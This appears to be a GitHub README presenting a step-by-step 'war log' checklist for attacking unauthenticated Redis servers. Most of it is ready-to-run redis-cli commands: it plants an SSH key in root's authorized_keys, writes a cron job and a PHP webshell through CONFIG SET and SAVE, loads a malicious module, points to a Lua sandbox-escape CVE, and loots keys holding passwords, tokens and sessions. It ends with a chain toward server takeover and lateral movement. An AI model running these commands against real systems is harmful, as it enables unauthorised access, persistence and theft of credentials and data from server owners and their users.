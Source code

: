 # 🧨 Redis-warROOOOOOM

**No auth. No problem.**
This is my war log for Redis exploitation.

<div align="center">
  <img src="https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExbWU4NGRyMTN6bmhvYWhvam85aXNiZnhjaWU5a3pvNm83dmEzODBpbSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/3o6Mbi9e1UmeCCyO0E/giphy.gif" width="600"/>
</div>  


---

## 1. Discovery & Access
- [ ] Scan ports 6379/26379  
  ```bash
  nmap -p 6379,26379 <target>
  ```
- [ ] Banner grab  
  ```bash
  nc <target> 6379
  ```
  → send `PING` → reply `+PONG`?
- [ ] Check basic info  
  ```bash
  redis-cli -h <target> INFO server
  ```

---

## 2. Authentication & ACL
- [ ] Test known credentials  
  ```bash
  redis-cli -h <target> -a <PASS>
  ```
- [ ] Check user and permissions  
  ```bash
  redis-cli ACL WHOAMI
  redis-cli ACL LIST
  redis-cli ACL CAT @all
  ```
- [ ] Verify if current user has `+@write` or `+@dangerous`

---

## 3. Basic Write Test
- [ ] Test write operation  
  ```bash
  redis-cli SET testkey "owned"
  redis-cli GET testkey
  ```

---

## 4. Recon Information
- [ ] Full info  
  ```bash
  redis-cli INFO all
  ```
- [ ] Directory and filename  
  ```bash
  redis-cli CONFIG GET dir
  redis-cli CONFIG GET dbfilename
  ```
- [ ] Modules and available commands  
  ```bash
  redis-cli MODULE LIST
  redis-cli COMMAND
  ```

---

## 5. File Write Exploits

### 5.1 SSH authorized_keys
```bash
redis-cli SET crackit "ssh-rsa AAAAB3N..."
redis-cli CONFIG SET dir /root/.ssh/
redis-cli CONFIG SET dbfilename "authorized_keys"
redis-cli SAVE
```

### 5.2 Cronjob
```bash
redis-cli SET job "* * * * * root /bin/bash -c 'id > /tmp/owned'"
redis-cli CONFIG SET dir /etc/cron.d/
redis-cli CONFIG SET dbfilename "redis"
redis-cli SAVE
```

### 5.3 Webshell
```bash
redis-cli SET shell "<?php system($_GET['c']); ?>"
redis-cli CONFIG SET dir /var/www/html
redis-cli CONFIG SET dbfilename "x.php"
redis-cli SAVE
```

---

## 6. Replication / Module
- [ ] If `REPLICAOF` allowed → start rogue server and force replication
- [ ] Load malicious `.so` payload  
  ```bash
  redis-cli MODULE LOAD /tmp/evil.so
  ```
- [ ] Use exposed commands (e.g., `system.exec`)

---

## 7. Lua / CVE
- [ ] If `EVAL` allowed → test Lua script execution
- [ ] On Debian/Ubuntu → check **CVE-2022-0543** (RCE via Lua sandbox escape)

---

## 8. Cluster / Sentinel
- [ ] If port 26379 open  
  ```bash
  redis-cli SENTINEL masters
  redis-cli SENTINEL get-master-addr-by-name <name>
  ```
- [ ] If cluster active  
  ```bash
  redis-cli CLUSTER NODES
  redis-cli CLUSTER INFO
  ```

---

## 9. Data Looting
- [ ] Search sensitive keys with `SCAN` (never use `KEYS *`)  
  ```bash
  redis-cli SCAN 0 MATCH "*pass*" COUNT 100
  redis-cli SCAN 0 MATCH "*user*" COUNT 100
  redis-cli SCAN 0 MATCH "*token*" COUNT 100
  redis-cli SCAN 0 MATCH "*session*" COUNT 100
  ```
- [ ] Dump values  
  ```bash
  redis-cli GET <key>
  redis-cli HGETALL <key>
  redis-cli LRANGE <key> 0 -1
  redis-cli SMEMBERS <key>
  redis-cli ZRANGE <key> 0 -1 WITHSCORES
  ```

---

## 10. Reporting & Chaining
- [ ] Is Redis exposed? (public vs internal)
- [ ] Authentication required? ACL config secure?
- [ ] `@dangerous` commands accessible?
- [ ] File-write successful?
- [ ] Code execution achieved?
- [ ] Sensitive data exfiltrated?
- [ ] Possible attack chains → Redis → credentials → server takeover → lateral movement
